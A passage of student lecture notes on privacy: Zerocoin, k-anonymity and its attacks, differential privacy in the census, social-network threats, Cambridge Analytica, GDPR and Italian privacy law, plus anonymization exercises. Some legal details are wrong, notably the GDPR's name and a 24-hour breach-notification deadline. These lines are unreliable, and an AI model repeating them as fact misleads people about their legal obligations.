        - Reveal S (miners will verify S hasn’t been spent before)
        - Create zero-knowledge proof that: “I know a number r such that H(S, r) is one of the zerocoins in the block chain”
        - Pick arbitrary zerocoin in block chain & use as input to your new transaction (remember we assume all zero coins have the same value of 1 Basecoin)
    - Zerocoin is anonymous: since r is secret, no one can figure out which zerocoin corresponds to serial number S
    - Zerocoin is efficient
  - Zerocash: Zerocoin without Basecoin

#### K-Anonymity

- General concepts and definition of the problem
  - Inference control: protecting private data while publishing useful information (related to big data)
  - Access control: protecting information from unauthorized access and use
  - Disclosure control: modification of data, containing confidential information about individual entities, in order to prevent third parties working with these data to recognize individuals
    - Problem

      

  - Types of disclosure
    - Identity disclosure: identification of an entity (person)
    - Attribute disclosure: the intruder finds something new about the Target person
    - Membership disclosure: attacker cannot tell that a given person is in the dataset
    - Sensitive attribute disclosure: attacker cannot tell that a given person has a certain sensitive attribute (for sensitive attribute definition see next)
    - Identity disclosure: attacker cannot tell which record corresponds to a given person
  - Anonymize the data: remove “personally identifying information” (PII) 
  - Microdata: represents a series of records, each record containing information on an individual unit such as a person, a firm, an institution, etc
  - Macrodata: contains computed data (e.g statistics)
  - Masked Microdata: names and other identifying information are removed or modified from microdata
  - External Information: any known information by a presumptive intruder related to some individuals from initial microdata
  - Source of the problem: even if we do not publish the individuals data there are some fields that may uniquely identify some individual so the attacker can use them to join with additional sources and identify the individuals
- Data protection
  - Microdata: discover sensitive cells, that is, cells that can be easily associated with a specific respondent
    - Example: if there is only one person with HIV then this might be easily defined
  - Macrodata: strategy used to detect sensitive cells is the threshold rule, according to which a cell is sensitive if the number of respondents is less than a given threshold
    - Cell suppression (primary suppressions): protecting sensitive cells by removing their values
      - A problem can arise when also the marginal totals of the table are published
        - Even if it can be possible to calculate an interval that contains the suppressed cell if the size of such an interval is small, then the suppressed cell can be estimated rather precisely
    - Secondary suppression: to block such inferences, additional cells may need to be suppressed
    - Rules to detect sensitive cells
      - (n,k)-rule: a cell is sensitive if less than `n` respondents contribute to more than `k%` of the total cell value
      - p-percentage rule: a cell is sensitive if the total value `t` of the cell minus the largest reported value `v1` minus the second largest reported value `v2` is less than `(p / 100) * v1`
        - Example: if we have statistics about salary of the area where Bill Gates lives and other people have a mall income we can guess the salary of Bill Gates
- Classification of attributes
  - Key attributes: name, address, phone number (uniquely identifying)
  - Almost identifiers (quasi identifiers, QI): 5-digit ZIP code, birth date, gender (can be used for linking anonymized dataset with other datasets)
  - Sensitive attributes: medical records, salaries, etc. (what the researchers need, so they are always released directly)

  

- K-anonymity
  - The information for each person contained in the released table cannot be distinguished from at least `k-1` individuals whose information also appears in the release
    - Example
      - You try to identify a man in the released table, but the only information you have is his birth date and gender
      - There are `k` men in the table with the same birth date and gender
      - Any almost-identifier present in the released table must appear in at least `k` records
  - Goal: each record is indistinguishable from at least `k-1` other records
  - Techniques
    - Generalization: replace almost-identifiers with less specific, but semantically consistent values

      

      - How it works

        

        

      - Example

        

        - 3-anonymous
          - If the adversary knows Alice’s almost-identifier `(47677, 29, F)`, he still does not know which of the first 3 records corresponds to Alice’s record
    - Suppression: do not release a value at all

      

  - Objective: generalize or suppress data in a given database until it becomes k-anonymized, while incurring a minimal loss of information
    - Let `Π(D, g(D))` be a measure of the amount of information that is lost by replacing a database `D` with a corresponding generalization/suppression `g(D)`
    - `Let D = {R1, . . . , Rn}` be a database with public attributes `Aj`, `1 ≤ j ≤ r`
    - Given collections of attribute values, `Aj ⊆ P(Aj)`, and a measure of information loss `Π`, find a corresponding k-anonymization, `g(D) = {R1,...,Rn}`, that minimizes `Π(D,g(D))`
  - Attacks
    - Unsorted Matching Attack
      - Problem: records appear in the same order in the released table as in the original table
      - Solution: randomize order before releasing
    - Complementary Release Attack
      - Problem: different releases of the same private table can be linked together to compromise k-anonymity

        

    - Homogeneity attack

      

    - Background knowledge attack

      

    - Probabilistic inference attacks

      

      - 80% of probability HIV
    - Similarity attack

      

  - l-diversity: sensitive attributes must be “diverse” within each almost-identifier equivalence class

    

    - Limitations
      - Example: sensitive attribute is HIV+ (1%) or HIV- (99%)
        - Suppose there are 10000 records in total
        - To have distinct 2-diversity, there can be at most `10000*1% = 100` equivalence classes
    - Versions
      - Probabilistic: frequency of the most frequent value in an equivalence class is bounded by `1/l`
      - Entropy: entropy of the distribution of sensitive values in each equivalence class is at least `log(l)`
      - Recursive (c, l)
        - `r1 < c(rl+r(l+1)+...+rm)` where `ri` is the frequency of the `i`thmost frequent value
        - Most frequent value does not appear too frequently
  - t-closeness: distribution of sensitive attributes within each almost-identifier group should be “close” to their distribution in the entire original database

    

    - We should measure semantic distance between concepts (requires generalization of sensitive information)

      

  - Why k-anonymity (and related concepts) are not sufficient
    - Based on the concept of PII (personally identifiable information) which has no guarantee and has no precise definition  
    - Attributes could be reasonably stable across time and contexts (fine-grained)
      - Example: a single book that a person read and evelauted does not mean too much; the collection of books read by a person identify that person (if she/he has read a sufficient number of books)
    - If attacker knows something else?

      

  - k-Anonymity Considered Harmful
    - Syntactic: focuses on data transformation, not on what can be learned from the anonymized dataset (“k-anonymous” dataset can leak sensitive information)
    - “Almost-identifier” fallacy: assumes a priori that attacker will not know certain information about his target
    - Relies on locality: destroys utility of many real-world datasets
- UK confidentiality guidance
  - Pros
    - Not limited to synctactic rules
    - Try to understand semantic of data
    - Flowchart

      

  - Example

    

    - Table of statistics for psychiatric services at a hospital shows admissions by single years of age and diagnosis
    - Attribute disclosure has occurred if someone, who knows their neighbour was admitted for such service, discovers from the statistic that they are schizophrenic
    - An intruder with a special interest in conception statistics discovers from a table that only a small number of very young women have conceived in a particular local area
    - The small number in the cell doesn't tell the intruder who the women are but it may prompt them to follow up other sources of information to locate the individuals and disclose more details
    - This situation may occur when small values are reported for particular cells
    - In a large population (for example, a country or region), the effort and expertise required to discover more details about the statistical unit may be deemed to be disproportionate
    - As the base population is decreased by moving to smaller geographies or sub-populations, it becomes easier to find units and discover information
  - Self identification
    - Example
      - A statistic showing attendance at a drug misuse clinic by age and sex has a count of 1 for a particular ward
      - The individual may in fact be the only person who knows who this 1 is but they may feel exposed by the statistic
      - This might be a confidentiality problem: the individual might think data can be disclosed and there is no privacy protection
  - Risk category: defined in terms of the likelihood of an attempt to identify individuals, and the impact of any identification
    - Medium Risk (health statistices): consider all cells of size 1 or 2 unsafe; care should also be taken where a row or column is dominated by zeros
    - High Risk: likelihood of an identification attempt will be higher, and the impact of any successful identification would be great (eg abortions, AIDS/HIV, ..)
      - All cells of size 1 to 4 are considered unsafe and care should be taken where a row or column is dominated by zeros
      - Higher levels of protection may be required for small geographical levels or for particular variables with an extremely high level of interest and impact
  - Methods
    - Table redesign
      - Grouping categories within a table aggregating to a higher level geography or for a larger population subgroup
      - Aggregating tables across higher geographic level (e.g Zip code) or a number of years/months (e.g. age) 
    - Modify cell values
      - Cell suppression
      - Rounding: adjusting the values in all cells in a table to a specified base
      - Barnardisation: cells of every table are adjusted by +1, 0 or -1, according to probabilities
    - Adjust the data: swap pairs of records within a micro-dataset that are partially matched to alter the geographic locations attached to the records but leave all other aspects unchanged

#### Privacy-Preserving Data Mining 

- Problem
  - A user makes query to a DB
    - He is allowed to make statistical queries (privacy reasons)
    - He is smart so he is able to infer information he should not know by repeteatedly making queries
    - We want to allow him to query but we want to preserve privacy of the DB
- Data Sanitization: process of disguising sensitive information in databases by overwriting it with realistic looking but false data of a similar type
  - Data sanitization is different from K-anonymity
  - Strawman Definition: assume x1,...,xn are drawn i.i.d. from unknown distribution; sanitization is safe if it only reveals the distribution
  - Methods
    - Input Perturbation: reveal entire database, but randomize entries

      

    - Output Perturbation: randomize response to each query

      

- Concepts of privacy
  - Weak: no single database entry has been revealed
  - Stronger: no single piece of information is revealed
  - Strongest: the adversary’s beliefs about the data have not changed 
- Kullback-Leibler Distance (KL distance): measures the “difference” between two probability distributions
  - If distance is small then two distributions are similar
  - Used to measure mutual information between original and randomized databases (if this distance is small, then Y leaks little information about actual values of X)
- Privacy definitions
  - Strong
    - Mutual information can be small on average, but an individual randomized value can still leak a lot of information about the original value
    - We have to consider some property Q(x)
      - Adversary has a priori probability Pi that Q(xi) is true
      - Privacy breach if revealing yi=R(xi) significantly changes adversary’s probability that Q(xi) is true   
      - Knowing the value after randomization changes the information we have
        - Example
          - x= {0,1,2}; p(x=0)=0.5, p(x=1)=p(x=2)=0.25
          - Consider randomization R(x) = x with prob. 50%; x+1 mod 3 prob 50%
          - Now we know that R(x) = 0, we have that
            - p(x=0)=3/4
            - p(x=1)=0
            - p(x=2)=1/4  
        - Example: game three boxes
          - There are three closed boxes: one with gold two with paper
          - You choose one box
          - Then one box with no gold is open
          - After this you can change your box 
          - Question: it is convenient to change box or keep yur choice?
          - Answer: change your box!!! (you double the probability of choosing the box with gold!) 
    - In output perturbation the response randomized at each query could make the real value of the entry in the DB be disclosed
    - Impossibility result
      - The key obstacle is the side information that may be available to an adversary; the results hold under very general conditions regarding the database, the notion of privacy violation
      - Example
        - Vitaly knows that Alex Benn is 2 inches taller than the average Russian
        - DB allows computing average height of a Russian
        - This DB breaks Alex’s privacy according to this definition... even if his record is not in the database!
  - Weak (Differential privacy): **whatever is learned about one respondent A would be learned regardless of whether or not A participates to the database**
    - Formalization: statistical outcome is indistinguishable regardless whether a particular user (record) is included in the data
    - Example: given two databases D1 and D2, for every output O the adversary should not be able to use output O to distinguish between any D1 and D2
    - Example

      

      - Even removing a person the result shouldn't make this visible

    - Indistinguishability -> Differential privacy

      

    - Sensitivity: maximum | q(D) – q(D’) | 
    - "Implementation": to each query noise is added such that
      - Each answer does not leak too much information about the database
      - Noisy answers are close to the original answers; so they are useful to the user
      - Privacy depends on the noise, larger noise -> higher privacy & less useful answer
      - Sensitivity: if in a DB of salaries Bill Gates enters then the average will be different; so the global sensitivity affects the implementation of this and is calculated as the maximum |difference| between neighbors 
        - So to this is added the Laplace Noise
    - How much noise for privacy?
      - Consider sensitivity S, then the following guarantees ε-differential privacy: `λ = S/ε`
      - Example: suppose we count total income
        - If all people have income between 10k and 100K we add a noise depending on 100K 
        - If max income is 100000 K then the noise must be much larger for not revealing information on the richest person
      - But more noise we add less interesting answers we get 
      - A problem appears when values are not "countable" (like eye color)
        - In this case the number of people is considered to calculate sensitivity etc..
    - Randomized response: in general laplace method is better, lower variance

      

    - Multiple queries: if multiple queries can be done then every query leaks data (epsilon gets summed) so number of queries should be bounded
      - Solution
        - Direct: output of the algorithm is list of query answers
        - Synthetic data: algorithm constructs a synthetic dataset D’, which can be queried directly by analyst
- Data correlation attacks

  

  - Summing information from two sources (social networks, databases...) to infer other information

#### Differential Privacy in Census

- Differential privacy
  - Definitions
    - A mathematical definition of privacy loss
    - Specific mechanisms that allow us to:
      - Add the smallest amount of noise necessary for a given privacy outcome
      - Structure the noise to have minimal impact on the more important statistics
  - How it works
    - Each time we go through the noise barrier, we get a different number

      

    - Epsilon controls the amount of noise 

      

  - Provides
    - Provable bounds on the accuracy of the best possible database reconstruction given the released tabulations
    - Algorithms that allow policy makers to decide the trade-off between accuracy and privacy
  - Advantages of noise injection with formal privacy
    - Transparency: the details can be explained to the public
    - Tunable privacy guarantees
    - Privacy guarantees do not depend on external data
    - Protects against accurate database reconstruction
    - Protects every member of the population
- Differential privacy in census system
  - Overview
    - Every record in the population may be modified (modifications are bounded by the global privacy budget)
    - Records in the tabulation data have no exact counterpart in the confidential data
    - Explicitly protected tabulations have provable, public accuracy levels 
  - Definitions
    - Census block: smallest geographic unit used for tabulation of data
      - The population of a census block varies greatly
      - There are many blocks (rural areas) with few people (possibility leaks)
    - Block groups: census blocks are grouped into block groups, which are grouped into census tracts 
  - Scheme for data protection

    

  - Algorithms
    - Bottom-up: independently protect each block

      

      - Mechanism: Select, Measure, Reconstruct separately on each block
    - Top-down
      - Meachanism
        1. Generate national histogram without geographic identifiers
        2. Allocate counts in histogram to each geography “top down”
           - National-level measurements - Ɛnat
           - State-level histograms - Ɛstate
           - County-level histograms - Ɛcounty
           - Tract-level histograms - Ɛtract
           - Block-group level histograms - Ɛblockgroup
           - Block-level histograms - Ɛblock
           - Ɛ=Ɛnat+Ɛstate+Ɛcounty+Ɛtract+Ɛblockgroup+Ɛblock

        

        

      - Post process
        1. Generate nonnegative fractional demographics histogram (State histograms must add up to National histogram etc.)
        2. Convert fractional histogram to non-negative integer histogram (child histograms must add up to parent)
    - Differences

      

  - What is the correct value of epsilon (privacy loss budget)? It depends

    

  - Where should the accuracy be allocated?
    - Global privacy loss budget
    - Geographic levels (fraction of 𝝴 allocated to each level)
    - Tables (fraction of 𝝴 allocated to each table or relationship)

#### Social Networking Security

- Online Social Networking (OSN): online web services enabling people to connect with each other, share information
  - Pros
    - Organizations want to market products, services, etc. to this demographic, OSNs can help them reach these potential buyers
    - OSNs provide communal forum for expression (self, group, mass), collaboration, etc.
  - Cons
    - Using OSNs poses security issues for orgs as well as individuals 
- OSN Security Threats/Attacks 
  - URL shorteners: hides the true destination URL, hard to tell where you’re going until you click
  - Malware distribution
    - Example: Koobface, worm masquerading as Adobe Flash Player update 
    - Other third-party apps on OSNs like Facebook may contain malware (Games, quizzes.. gives developers rights to look at your profile and overrides your privacy settings)
  - Stalking, Harassment..: bullies, stalkers, etc. harass people via OSNs
    - High-profile example: Megan Meier’s suicide
  - Social engineering: users sometimes unknowingly share personal information with complete strangers; all of this information could be useful when combined with social engineering techniques to aid in identity theft or the compromising of sensitive information
    - Malicious actors (with fake accounts to carry out malicious activities anonymously) are targeting Social network users to gain information to be used in phishing and other attacks
      - To make people get fucked up by phishing the attacker must convince them: attacker can create a fake email address that impersonates the name of one of their friends
    - Clickjacking: ricks users into clicking on a specific portion of a webpage that performs an action other than what they are intending (utilizes JavaScript technology to create a transparent frame that hovers above the website the user actually sees)
      - Usually uses also CSRF underneath
  - Information privacy
    - It’s very difficult to delete information after it’s been posted online: indiscreet information can adversely affect college admissions, employment, insurance...
    - “I’ll be on vacation” post plus geolocation invites burglars, i.e., “Please Rob Me”
    - OSNs sells private information to advertisers
- Social media key aspects
  - Key definitions
    - Controller: the company/person who decides how and why personal data is processed
    - Data subject: an identifiable living individual
    - Personal data: any information relating to a data subject
    - Processing: doing anything in relation to personal data
    - Processor: the company/person who processes personal data on behalf of the controller
    - Recipient: a company/person to which personal data is disclosed 
  - A company holding information about users has to follow the GDPR
  - Advertising
    - When a company is providing personal data to any advertising platform they will need to have the right to do so under the GDPR
    - When advertising on social media you will need to ensure there is a suitable disclaimer and link to a privacy policy on any form you use when capturing data
    - No pre-ticked opt-in boxes for consent
    - If you’re collecting data in exchange for content such as downloads consent for marketing communication needs to be explicit and opt-in
    - If you are outsourcing social media management, then you need a data processing agreement: there must be a written contract when one business processes personal data on behalf of another business
      - Length of time of the processing
      - Type(s) of personal data
      - Obligations and rights of the data controller
      - All of the data processor’s personnel who access the data is subject to confidentiality obligations
      - The data processor will comply with the GDPR regarding security measures and encryption
      - The data processor must assist the data controller in dealing with requests from data subjects, dealing with data breaches and conducting impact assessments
  - User awareness
    - Facebook users have limited awareness on privacy issues
    - The most common strategy for privacy protection is decreasing profile visibility through restricting access to friends
    - This could be  a very weak mechanism; many users are accepting people as "friends" that they have only heard of through other or do not know at all and, therefore, most have very large groups of "friends" that have access to personal information and pictures
    - So social network privacy does not merely exist within the realm of privacy settings, but privacy control is within the hands of the user
    - More education about privacy on Facebook would be beneficial to the majority of the Facebook user population
- Cambridge Analytica
  - Story
    - Alexander Kogan, a data scientist at Cambridge University, developed an app called "This Is Your Digital Life"; he then provided app to Cambridge Analytica
    - Cambridge Analytica arranged an informed consent process for research in which several hundred thousand Facebook users would agree to complete a survey only for academic use
    - However, Facebook's design allowed this app to not only collect the personal information of people who agreed to take the survey, but also the personal information of all the people in those users' Facebook social network, in this way Cambridge Analytica acquired data from millions of Facebook users
  - Micro targeted ads
    - "Send the strong terrorism ad to a 64 year old, gun-owning medium-neurotic. He might buy a more powerful gun"
    - “We have profiled the personality of every adult in the United States of America, 220 million people.”
    - “We are thrilled that our revolutionary approach to data-driven communications played such an integral part in President-elect Donald Trump’s extraordinary win.”
  - How it works
    - University and the Psychometrics Center at the University of Cambridge: studies relied on data collected by app (100-question quiz) that assessed a person’s openness, conscientiousness, extroversion, agreeableness and neuroticism, traits commonly referred to in the academic community by the acronym Ocean
    - Many respondents who took the quiz authorized it to gain access to their Facebook profile data, and information about their friend network — access that was allowed by Facebook at the time
    - That allowed researchers to cross-reference the results of the quiz with the users’ Facebook “likes,” and build a model from the correlations they found between the two
    - With that model, the researchers could often make precise guesses about subsequent users’ personalities using only a list of their likes, no 100-question quiz necessary
  - Accuracy
    - Based on a sample of more than 32,000 participants who were assessed by both the model and one or two friends, the researchers found that the model, using just
      - 10 likes, was more accurate than a work colleague
      - 70 likes, it was more accurate than a friend or roommate
      - 150, more accurate than a family member
      - 300, more accurate than a spouse 
  - Elections
    - This information could provide important opinion concerning basic aspects on voting, and on critical political issues (e.g. immigration, protectionism, gay rughts, public health care etc.)
    - These lead to 253 psychological profiles, these opinions were used to send targeted emails to people 
- Defense measures
  - Use strong, unique passwords
  - Provide minimal personal information: avoid entering birthdate, address, etc.
  - Review privacy settings, set them to “maximum privacy”
  - Exercise discretion about posted material
  - Be wary of 3rd party apps, ads, etc.
  - Supervise children’s OSN activity 
  - “If it sounds too good to be true, it probably is”
  - Use browser security tools for protection
    - Anti-phishing filters (IE, Firefox)
    - Web of Trust (crowdsourced website trust)
    - AdBlock/NoScript/Do Not Track Plus
  - Personal reputation management: search for yourself online, look at the results
  - Cease using OSNs, delete accounts (contact law enforcement)

#### Privacy protection: legal issues and GDPR

- Privacy by design (PbD): promotes privacy throghout the whole engineering process
  - 7 fundamental principles
    - Proactive, not Reactive (plan in advance not wait for the problem)
    - Privacy as a Default Setting 
    - Privacy Embedded into Design
    - Full Functionality
    - End-to-End Security
    - Visibility and Transparency
    - Respect for User privacy (user friendly not cryptic)
  - Data minimization and de-identification
    - De-identification
      - De-identification techniques are intended to remove identifying information from a dataset while retaining some utility in the remaining data
      - De-identification can also be used prior to sharing or release of a dataset
      - Problems
        - The de-identified data can be re-identified
          - Disclosure of private facts affects the individuals whose data were re-identified
          - Damage to reputation affects the organization that performed the de-identification
        - There is no agreement regarding the meaning of re-identification risk
          - The term is taken to mean the percentage of de-identified records that can be re-identified (in this case risk can be directly measured by performing a re-identification attack)
          - Others consider it as the probability of record re-identification in the future (in this case the risk is impossible to quantify)
        - Organizations must consider employing a combination of several approaches
          - Removing almost-identifiers and other kinds of information that might be used to re-identify data subjects
          - Continuously surveying for data that could be linked to the de-identified information that they are sharing
          - Limit sharing with others
          - Limit the activities of data "users" (who uses the data)  
        - There are no widely accepted standards for testing the effectiveness of a de-identification process
      - Conclusion: need for standards and assessment techniques that can measurably address the breadth of data and risks
  - PbD criticisms
    - Vague
    - Evolutionary approach will come at the cost of privacy infringements because evolution implies also letting privacy invading products utilizable until they are proven unfit for privacy (business models are built around customer surveillance and data manipulation)
    - Does not focus on the role of the actual data holder, but on that of the system designer: Privacy by Design is not based on law
- European regulations: GDPR (january 2012, approved in april 2016, enforced in may 2018)
  - Tools
    - Proposal for a Regulation concerning "the protection of individuals with regard to the processing of personal data and the free movement of such data", aimed at regulating the processing of personal data in both the private and public sector
    - Proposal for a Directive addressed to the regulation of prevention, conflict and repression of crimes, and to the enforcement of criminal penalties
  - GDPR: Global Data Protection Regulation
    - Basic info
      - Applies to processing of personal data by data controllers and processors
      - Effective in Member States (no local law required)
    - Data processing must satisfy AT LEAST one processing condition
      - Consent: the individual has given clear consent
      - Necessary for the performance of a contract
      - Legal obligation (ex: Hotel registration for police)
      - Vital interests (ex: You are unconscious in a hospital)
      - Public functions
      - Legitimate interests
    - Personal data: any information relating to the identification, directly or indirectly, of natural persons
      - Examples: names, addresses, physical, psychological, economic, cultural, online identifiers... 
      - If data is anonymised, GDPR does not apply
      - If data is pseudonymised, GDPR does apply  
    - Sensitive Personal data (explicit consent or another specific legal basis required to process these)
      - Examples: racial origin, political opinions, religious or philosophical beliefs, genetic data, biometric data (e.g. fingerprints), data concerning health, sex life...
    - Data controller, data processor
      - Data controller: person or body that, alone or jointly with others, determines the purpose and means of the processing of personal data
      - Data processor: natural/legal person or body which processes personal data on behalf of the controller
    - Data processing: any automatic operation which is performed on personal data
      - Must contain information about
        - Who is collecting the data
        - Why it is being collected
        - How it will be processed
        - How long it will be kept for
        - Who it will be disclosed to
        - ...
    - Principles
      - Lawfulness, fairness and transparency
      - Purpose limitation: personal data must be collected for specified, explicit and legitimate purposes and not further processed in a manner that is incompatible with those purposes
        - Be clear about why you are collecting personal data
        - Make sure that data subjects are also clear about the purpose(s)
        - Cannot expand purpose without reverting to individual 
      - Data minimization: personal data must be adequate, relevant and limited to the purpose (if you don’t need it, don’t ask for it)
      - Accuracy: personal data must be accurate and up to date
        - The longer personal data is held, the more likely it will be inaccurate/out-of-date
      - Retention: personal data must be kept in an identifiable format no longer than necessary
        - Be clear about length of time data will be kept and reason for same
        - Data should never be kept “just in case”, decide how long data should be kept for before you collect it
      - Integrity and confidentiality: personal data must be kept secure
        - Tools and techniques
          - The pseudonymization and encryption of personal data
            - Pseudoanonymization: means the processing of personal data in such a manner that the personal data can no longer be attributed to a specific data subject without the use of additional information (kept separately)
            - When encrypting personal data the encryption key is the “additional information” which is “kept separately” and “subject to technical and organizational measures”
          - Measures to ensure resilience of systems and services processing data
          - Measures that allow businesses to restore the availability and access to the data in the event of a breach
          - Frequent testing of the effectiveness of the security measures
    - Implications
      - Increased fines
        - Regulators can impose fines of up to 4% of annual turnover or €20.000.000 (whichever is highest)
        - Regulator may perform audits, issue warnings or a (temporary) ban on processing
        - Individuals may sue for compensation to recover (non-)material damages
      - Proof of compliance
        - Organizations must demonstrate they are compliant by:
          - Evidencing that they comply with the 6 GDPR principles and processing conditions
          - Documenting suitable policies that set out how you process personal data
          - Performing Privacy Impact Assessments
          - Implementing technical security measures
      - New rights
        - Right to access and rectify personal data within 30 days
        - Right to be forgotten
          - If an individual has given her or his consent to processing for a specific purpose and does not want this service anymore, than there is no reason to keep the data in the system
          - In particular, when children have made data about themselves accessible, often without fully understanding the consequences, they must not be stuck with the consequences of that choice for the rest of their lives
          - This does not mean that on each request of an individual all his personal data are to be deleted at once and forever
            - Example: if the retention of the data is necessary for the performance of a contract or for compliance with a legal obligation, the data can be kept as long as necessary for that purpose
            - Example: no politician will be able to have their earlier remarks deleted from the web
        - Right to data portability (transfer your personal data between service providers)
        - Right to challenge profiling and automated decisions
        - Right to object to direct marketing
        - Right to know when your data has been hacked
      - Privacy by Design, Privacy by Default
      - Data Protection Officers (DPO) must be present: observes, values and organizes the treatment of personal data
      - Privacy Impact Assessments: mandatory for “high” risk personal data processing
      - Privacy Notices
        - Increase of mandatory amount of information included in privacy notices
        - Supplied to the individual at the time they provide personal data (if processing is for a new purpose, prior notification must be given)
        - Must be “concise, transparent, intelligible and easily accessible”
      - Consent
        - Must be freely given, specifc, informed and unambiguous
        - May be withdrawn at any time
      - Mandatory breach notifications: record keeping of all security breaches
      - Obligations for data processors: more responsibility, higher liability
      - Extra-territorial scope: GDPR applies to data controllers and processors established in the EU and organizations that target EU citizens
    - Business key aspects
      - One continent, one law: regulation will establish one single set of rules which for companies to do business in the EU
      - One-stop-shop: businesses will only have to deal with one single supervisory authority
      - Use of "big data" analytics
        - Example: in case of a crash, cars equipped with eCall emergency call system can automatically call the nearest emergency centre
          - Advantages with the new rules:
            - One rule for Europe
            - Raw data can be used to analyse where the most accidents take place and how future accidents could be avoided (can also be used to analyse traffic flows)
            - Providing individuals with clear, effective information will help build trust in analytics and innovation  
- Data Protection Officer (DPO)
  - Key organizational issues: solution is nominating the Head of the Protection of Personal Data (Data Protection Officer) that will keep track of the organization
  - Needed
    - Adequate knowledge of legislation and the data management practices personal
    - Carry out its functions in full independence and in the absence of conflicts of interest
    - Operate in the employ of the owner or responsible or on the basis of a service contract
  - The owner or manager of the treatment will have to make available to the DPO human and financial resources necessary to perform its tasks
  - Duties
    - Inform and advise the owner of the treatment about their obligations under the European Regulation
    - Check the implementation and application of the Regulations, provide opinions on the assessment of the impact on data protection
    - Act as a contact point about any issue related to the processing of their data or the exercise of their rights
    - Act as a contact point for the Authority for the protection of personal data or, where appropriate, refer to the Guarantor at its own initiative
  - Data breach (applies to paper and electronic records)
    - Examples
      - Disclosure of confidential data to unauthorised individuals
      - Loss or theft of data or equipment on which data is stored
      - Inappropriate access controls allowing unauthorised use of information
      - ...
    - When data breachs occur
      - Notification to supervisory authorities
        - Detailed information
        - Without undue delay and at the latest within 24 hours after becoming aware of the breach
        - If not within 24 hours, reasoned justification for the delay, maximum 72 hours
      - Notification to data subjects
        - Encrypyion may provide exemption and may be imposed
  - Accountability: maintain a record of processing activities
    - What personal data is processed
    - Why it is conserved 
    - How it was obtained
    - The legal basis for processing
    - Where/how it is stored
    - Security measures in place
    - Who can access it
    - How long we retain it
- Italy regulations
  - US vs Italy
    - US
      - Data privacy is not highly legislated or regulated in the US
      - Partial regulations exist but there is no all-encompassing law regulating acquisition, storage, use of personal data
      - Access to private data can be sought when seeking for emplyment, medical care, housing, etc.
      - In general whoever owns the data has the right to store and use even if data is obtained withot permission unless there are laws and specific regulations
    - Italy
      - Anyone has the right to protection of personal data concerning him
      - The processing of personal data will be respect for human rights and fundamental freedoms and dignity, with particular reference to privacy
      - The information systems and programs are configured to minimize the use of personal data and identification data 
  - Types of personal data
    - Sensitive data: personal data revealing racial or ethnic origin, religious beliefs, political opinions..
    - Judicial data: personal data relating to criminal records, the register of offense-related administrative sanctions and the relevant current charges
  - Rights of individual
    - Right of access to personal data, including the right to obtain confirmation of the existence of data concerning him
    - The updating, correction or the integration of data
    - The cancellation, anonymization or blocking of data processed in violation of the law
    - The right to oppose
      - For legitimate and documented reasons to the treatment, even if carried out in a legitimate way
      - If the processing carried out for the purpose of sending advertising materials or direct selling or for carrying out market research
  - Roles
    - Holder of data: person, legal person, public administration that is competent
    - Person in charge of data: any natural person, legal person, public administration appointed by the holder to the processing of personal data
    - Operator of data: persons authorized to perform processing operations by the holder 
  - Authority (Garante): collegial body composed of four members elected by Parliament
    - Obligations towards the Authority
      - Communicate data processing
      - Preliminary consent of specific actions
        - Use of detection systems of biometric or use of intelligent video surveillance systems
        - Data processed with the help of electronic instruments to define the profile or personality, or to analyze habits or consumption choices
  - Individuals
    - Types
      - External: potential customers, active and potential suppliers, users of business services...
      - Internal: employees and related workers and directors
    - Obligations
      - Mandatory collection of consent from individuals
      - Consent should be given before collecting data
      - Limited number of cases when it is not requested (e.g. risk of death, police etc.)
- Complications: BYOD (Bring Your Own Device)
  - Bring your own device (BYOD) and Bring your own technology (BYOT): private device used for professional purposes vs. corporate device used for private purposes
  - Legal issues
    - Privacy and data protection
    - Electronic communications
    - Intellectual property rights/data ownership and recovery
    - ...
  - Legal ownership of the device is generally not relevant for data protection purposes (devices owned by third parties can be used)
  - Security assessment is much more complicated
    - Proliferation of devices and data
    - Data recovery 
    - Less security in case of private devices?
    - Loss of control? 
  - Data loss is a serious risk: theft and loss of portable devices is very common, security is generally less advanced on personal devices in comparison with corporate devices
  - Solutions
    - Raise awareness of emplyees (instruct) and ensure policy enforceability (enforce)
    - Monitoring is particularly sensitive in case of BYOD, as the devices have a dual purpose (professional/private)
      - Monitoring, if any, should be restricted to use of the device within the employment context
    - Rights and obligations of the parties involved (during contract)

### Practice

#### K-anonymity

- Exercise 1: transform 2 anonymity
  - Problem
    - In the figure you can see some records of a health-care database. In the course generalizationwas mentioned as one possibility how to anonymize data. Another approach is to suppresssome records.
      - Let the almost identifiers be Day of birth, sex, ZIP, Civil status. Generalize the data in such a manner that k = 2 holds. The generalization should be as minimal as possible.
      - Sometimes its better to suppress some records before doing the generalization step in order to keep more knowledge of the original data. Find a way to suppress as less records as possible in order to get more information after the subsequently generalization.

    

  - Solution
    - Zip code: suppress last 3 digits
    - Remove John Steed or suppress sex or civil status
    - Date of birth as (ex) \*.\*.50-80
- Exercise 2: transform 2 anonymity
  - Problem

    

  - Solution

    

- Exercise 3: transform 4 anonymity
  - Problem

    

  - Solution
    - Consider that disease doesn't count
    - State of domicile: *
    - We should add 1 male that is below 20 or maybe we could set all ages to <= 30
- Exercise 4: transform 4 anonymity
  - Problem

    

  - Solution

    

- Exercise 5: this table is 4 anonymous; is it l-diverse?
  - Problem

    

  - Solution: is 2-diverse

    

- Exercise 6
  - Problem

    

    - Does Dataset1, Dataset2, Dataset3 satisfy k-anonymity?
    - If so: what is the maximal `k` for which it satisfies k-anonymity? Explain your answer
  - Solution
    - In PDF

#### Example of questions given at the exam

##### PDF with questions

- [PDF with answers](./res/pdf/ans_quest.pdf)

##### Other questions

1. Today Bitcoin is very popular and its use is increasing rapidly. Discuss potential problems that might arise in the future and that might dramatically limit the use of Bitcoin.
   - Possible solutions
     - Hash collisions
     - Quantum computing
     - Growth of the chain? Not so much
     - Bigger blocks so bigger transactions fees (throughput is lower) 
2. Discuss digital coins that have been proposed after Bitcoin  focusing on their differences from Bitcoin.
   - Ethereum (2015)
     - Permissionless blockchain
     - Decentralized platform that runs “smart contracts”
     - Smart contracts are “self-executing” contracts or applications that run exactly as programmed without any possibility of downtime (i.e. the blockchain  is always  running), censorship, fraud or third-party interference
     - Capability that goes far beyond that of a pure P2P digital cash equivalent like Bitcoin: it is much like a smartphone operating system on top of which software applications can be built
     - Is not a cryptocurrency, however requires a form of on-chain value to incentivise transaction validation within the network (i.e. a form of payment for the network nodes that execute the operations)
     - This is where Ethereum’s native cryptocurrency “ether” (ETH) comes into play; it does not only allow smart contracts to be built on the Ethereum platform (i.e. it fuels them), but it also functions as a medium of exchange
   - RIPPLE
     - Public permissioned blockchain
